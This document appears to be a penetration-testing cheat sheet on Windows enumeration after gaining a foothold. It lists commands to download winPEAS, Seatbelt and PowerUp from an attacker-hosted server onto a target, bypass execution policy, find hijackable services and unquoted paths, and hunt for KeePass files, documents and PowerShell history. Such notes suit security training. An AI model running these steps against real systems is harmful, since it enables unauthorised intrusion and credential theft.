 # Windows Enumeration
Having gained a foothold on a Windows machine by whatever mechanism the following items are important steps for us to gain situational awareness, with each item potentially proving critical to a successful effort at privilege escalation or lateral movement:

## Automatic Enumeration

### winPEAS
Tool for the automatic discovery of interesting files, permissions misconfigurations etc.

In Kali:
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
On the target machine:
```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
### Seatbelt
Similar to `winPEAS` but different? Search for `compiled seatbelt github download`, and grab the `Seatbelt.exe` file. Transfer to target in the usual fashion:
```bash
python3 -m http.server 80
```
And run on the target:
```powershell
iwr -uri http://192.168.118.2/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```
### PowerUp.ps1
Explicitly a Windows enumeration and privesc tool. Nb. This tool (like most) should not be trusted implicitly always and if it offers no/insufficient usable information then manual techniques should be employed.
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
Load the Powershell module:
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
```
```powershell
powershell -ep bypass
```
```powershell
. .\PowerUp.ps1
```
To find Binaries that run with privilege that can be modified:
```powershell
Get-ModifiableServiceFile
```
To find exploitable unquoted service paths:
```powershell
Get-UnquotedService
```

Look upon our exploitable shit ye mighty and despair!

## Manual Enumeration

### Account Policy
```cmd
net accounts
```
### Username and hostname
```cmd
whoami
```
### Group memberships of the current user
```cmd
whoami /groups
```
### Our current privilege
```cmd
whoami /priv
```
### Existing users and groups
```powershell
Get-LocalUser
```
```powershell
Get-LocalGroup
```
```powershell
Get-LocalGroupMember adminteam
```
```powershell
Get-LocalGroupMember Administrators
```
CMD command for miscllelaneous info on a particular user:
```cmd
net user <username>
```
### Operating system, version and architecture
```powershell
systeminfo
```
### Network information
To list all network interfaces:
```powershell
ipconfig /all
```
To display the routing table and potentially enumerate links to other systems or networks that haven't yet been enumerated:
```powershell
route print
```
To enumerate the active network connections on a Windows system (with no DNS resolution):
```powershell
netstat -ano
```
### Installed applications
To enumerate all 32 bit applications installed on the machine:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
and for the 64 bit applications:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Nb. this is not necessarily a complete list, never forget to check the `C:\ProgramFiles*` directories, as well as the `C:\tools` and `Downloads` paths.
### Running processes
```powershell
Get-Process
```
To find the binary running that process:
```powershell
Get-Process | Select-Object Path
```
### Finding Critical Files
KeePass files:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
XAMPP Web Server config:
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
Misc. Data File Discovery:
```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

### Impersonation
If we have a GUI session then we can run a new session as a different user with:
```powershell
runas /user:admin cmd
```

### Command History
```powershell
Get-History
```
```powershell
(Get-PSReadlineOption).HistorySavePath | ForEach-Object {cat $_}
```
```powershell
cat C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Installed Windows Services
Necessary to run this in an RDP session since `Get-CimInstance` (and `Get-Service` for that matter) will produce permission denied errors in a shell or WinRM session:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
Get starting mode of a win32 service, in the event we can't restart it and this value is set to `Auto` then a system reboot could let us hijack the service having previously edited the executable:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<target service>'}
```

### icacls
Enumerate which users/groups have what privileges on a binary (nb. beneficial to use `icacls` over `Get-ACL` since the former will work on `cmd` as well!):
```powershell
icacls "C:\path\to\interesting.exe"
```
Mask to permissions mapping (nb. A preceding 'I' indicates the access right is inherited):

- F 	Full access
- M 	Modify access
- RX 	Read and execute access
- R 	Read-only access
- W 	Write-only access

### Unquoted Service Paths
Again, this will run in `cmd` or `Powershell`:
```cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### Scheduled Tasks
```cmd
schtasks /query /fo LIST /v
```